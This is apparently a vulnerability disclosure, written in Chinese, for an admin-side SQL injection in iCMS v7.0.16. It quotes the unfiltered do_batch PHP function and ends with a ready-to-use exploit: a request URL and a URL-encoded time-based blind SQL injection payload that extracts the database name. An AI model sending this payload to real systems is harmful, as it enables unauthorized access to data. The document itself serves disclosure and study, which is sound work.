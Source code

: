 # iCMS内容管理系统v7.0.16后台存在SQL注入漏洞

## 分析

在`app/database/database.admincp.php`中第59行的函数,其接收参数table但未对其进行过滤

```php
public function do_batch() {
		$tableA = (array) $_POST['table'];
		$tableA OR iUI::alert("请选择要操作的表");
		$tables = implode(',', $tableA);
		$batch = $_POST['batch'];
		switch ($batch) {
		case 'backup':
			$this->do_savebackup();
			break;
		case 'optimize':
			$this->optimize($tables);
			break;
		case 'repair':
			$this->repair($tables);
			break;
		}
}
```

将其传入do_savebackup函数当中，之后又调用bakupdata函数

![](pic/1.png)

其未对参数进行过滤，这里我测试了很多方式为成功，最终采用时间盲注最终成功，以下是利用exp，需要先后台登录在备份处抓包获取token(这个token几乎永久有效)

![](pic/2.png)



## exp

```
http://url/admincp.php?app=database&do=batch&frame=iPHP&CSRF_TOKEN=3cfb4dca8dpX4182alTYB-lseCEnHJ6UF-Qb4-AE3omRfhnysxZzolf49RhqX2q--m6HAq9BDawCgIxxVozSy390rhRevbWxjHZ34J0
```

post数据

```
table%5B%5D=dux_article%20WHERE%205830%3D5830%20AND%20%28SELECT%204647%20FROM%20%28SELECT%28SLEEP%282-%28IF%28ORD%28MID%28%28IFNULL%28CAST%28DATABASE%28%29%20AS%20NCHAR%29%2C0x20%29%29%2C5%2C1%29%29%3E96%2C0%2C2%29%29%29%29%29sYJr%29--%20sTre&sizelimit=2048&batch=backup
```

